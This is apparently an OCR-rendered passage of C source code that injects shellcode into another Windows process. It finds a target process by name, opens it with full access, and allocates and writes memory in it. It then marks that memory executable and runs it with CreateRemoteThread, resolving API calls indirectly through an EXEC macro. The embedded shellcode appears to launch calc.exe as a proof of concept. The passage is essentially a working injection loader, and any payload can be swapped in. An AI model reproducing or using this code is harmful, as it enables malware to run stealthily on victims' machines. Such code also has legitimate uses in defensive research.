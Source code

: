 ```c
		0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a,
		0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
		0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00,
		0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b,
		0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
		0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47,
		0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e,
		0x65, 0x78, 0x65, 0x00
	};
	
    PROCESSENTRY32W Process			= { .dwSize = sizeof( PROCESSENTRY32W ) };
	HANDLE			hSnapshot		= 0,
					hProcess		= 0,
					hThread			= 0;
	PVOID			pShellcode		= 0;
	SIZE_T			BytesWritten	= 0;
	DWORD			OldProtection	= 0;
	
    if (!InitApiCalls())
		return -1;
	
    hSnapshot = EXEC( Kernel32, CreateToolhelp32Snapshot ) ( TH32CS_SNAPPROCESS, 0 );
	EXEC( Kernel32, Process32FirstW ) ( hSnapshot, &Process );
	
    do 
	{
		if ( Process.th32ProcessID && Process.szExeFile ) 
		{
			if ( EXEC( Ntdll, wcscmp ) (Process.szExeFile, TARGET_PROCESS ) == 0 )
			{
				hProcess = EXEC( Kernel32, OpenProcess ) ( PROCESS_ALL_ACCESS, FALSE, Process.th32ProcessID );
			}
		}
	} while ( EXEC( Kernel32, Process32NextW ) ( hSnapshot, &Process ) );
	
    if ( !hProcess )
		return -1;

	pShellcode = EXEC( Kernel32, VirtualAllocEx ) ( hProcess, 0, sizeof( shellcode ), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE );
	EXEC( Kernel32, WriteProcessMemory ) ( hProcess, pShellcode, shellcode, sizeof( shellcode ), &BytesWritten );
	EXEC( Kernel32, VirtualProtectEx ) ( hProcess, pShellcode, sizeof( shellcode ), PAGE_EXECUTE_READ, &OldProtection );
	hThread = EXEC( Kernel32, CreateRemoteThread ) ( hProcess, 0, 0, ( LPTHREAD_START_ROUTINE )pShellcode, 0, 0, 0);
	EXEC( Kernel32, WaitForSingleObject( hThread, INFINITE ) );
	EXEC( Kernel32, CloseHandle( hProcess ) );
	EXEC( Kernel32, CloseHandle( hThread ) );
	return 0;
}
```
